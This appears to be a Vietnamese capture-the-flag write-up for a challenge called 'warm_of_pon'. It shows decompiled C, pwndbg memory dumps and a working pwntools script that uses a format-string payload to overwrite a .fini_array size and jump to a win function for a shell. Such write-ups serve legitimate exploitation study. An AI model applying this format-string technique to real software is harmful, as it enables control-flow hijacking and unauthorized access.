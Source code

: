 # volga

- Giải này mình thấy khá hay nên mình đã cố gắng write up lại. Cảm ơn `Crazyman` (Discord: `_cra2yman_`) đã chia sẻ solution.

## warm_of_pon

### Source

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+8h] [rbp-28h]
  char format[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 i; // [rsp+28h] [rbp-8h]
  __int64 savedregs; // [rsp+30h] [rbp+0h]
  void *retaddr; // [rsp+38h] [rbp+8h]

  setup(argc, argv, envp);
  v4 = 0LL;
  *(&savedregs - 305) = (unsigned __int64)malloc(8uLL) & 0xFFFFFFFFFFFFF000LL;
  *(_QWORD *)*(&savedregs - 305) = retaddr;
  gets(format);
  printf(format);
  for ( i = 0LL; i <= 0x20; ++i )
  {
    if ( *(_QWORD *)((i << 12) + *(&savedregs - 305)) )
      retaddr = *(void **)((i << 12) + *(&savedregs - 305));
  }
  return 0;
}
```

### Phân tích

- Chall này tồn tại 2 bug là BOF và FMT, nhưng chương trình đã copy `retaddr` là `saved rip` vào heap. Sau khi thực thi hàm `gets`, chương trình sẽ ghi lại giá trị của `saved rip`. Như vậy, nếu ta ghi đè `rip` thì cuối chương trình `retaddr` vẫn sẽ được ghi lại.

```c
  *(&savedregs - 305) = (unsigned __int64)malloc(8uLL) & 0xFFFFFFFFFFFFF000LL;
  *(_QWORD *)*(&savedregs - 305) = retaddr;
```

- Lúc giải còn trong thời gian, mình đã khá bối rối và quên mất rằng khi kết thúc chương trình, sẽ gọi một `.fini_array`.

```
0x0000000000403df0 - 0x0000000000403df8 is .fini_array
---
10:0080│+050 0x7fffffffdd60 —▸ 0x403df0 —▸ 0x401130 ◂— endbr64  // .fini_aray
11:0088│+058 0x7fffffffdd68 —▸ 0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 ◂— 0x0
12:0090│+060 0x7fffffffdd70 ◂— 0x61af5347029bcff0
13:0098│+068 0x7fffffffdd78 ◂— 0x61af43036c53cff0
14:00a0│+070 0x7fffffffdd80 ◂— 0x0
... ↓     2 skipped
17:00b8│+088 0x7fffffffdd98 —▸ 0x7fffffffde28 —▸ 0x7fffffffe0b5 ◂— '/mnt/d/CTF/volga/warm_of_ponn/warm_of_pon_patched'
```

- Chúng ta cùng nhìn qua struct của `.fini_array`

```c
typedef void (*fini_t) (void);

typedef struct {
  uint32_t length;
  fini_t* array;
} __aword __attribute__((aligned(16))) .fini_array;
```

- Trong các bài thông thường, sẽ có 1 con trỏ chứa địa chỉ `array`, nhưng trong chall này sẽ không có con trỏ ấy mà thay vào đó ta sẽ có con trỏ trỏ đến `size`

```
1d:00e8│+0b8 0x7fffffffdde8 —▸ 0x403df0 —▸ 0x401130 ◂— endbr64 //base .fini_array
1e:00f0│+0c0 0x7fffffffddf0 —▸ 0x1555555552c0 ◂— 0x0 // con trỏ size
----
pwndbg> tel 0x1555555552c0
00:0000│  0x1555555552c0 ◂— 0x0 // size
01:0008│  0x1555555552c8 —▸ 0x155555555880 ◂— 0x0
02:0010│  0x1555555552d0 —▸ 0x3fe650 ◂— 0x1d
03:0018│  0x1555555552d8 —▸ 0x155555555890 —▸ 0x15555551d000 ◂— jg 0x15555551d047
```

- Ta thấy `i--` thì nếu `base + size = con trỏ win` thì ta có thể get shell

```c
__libc_csu_fini (void)
{
#ifndef LIBC_NONSHARED
  size_t i = __fini_array_end - __fini_array_start;
  while (i-- > 0)
    (*__fini_array_start [i]) ();

```

### script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('warm_of_pon_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
                b* 0x40124F

                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)

GDB()

target = 0x00404070
main = 0x4011DD
fini_array = 0x403DF0
offset = target-fini_array

payload = f"%{offset}c%36$n%{exe.sym.win-offset}c%13$n".encode().ljust(0x28,b"a")+p64(target)
sl(payload)

p.interactive()

```
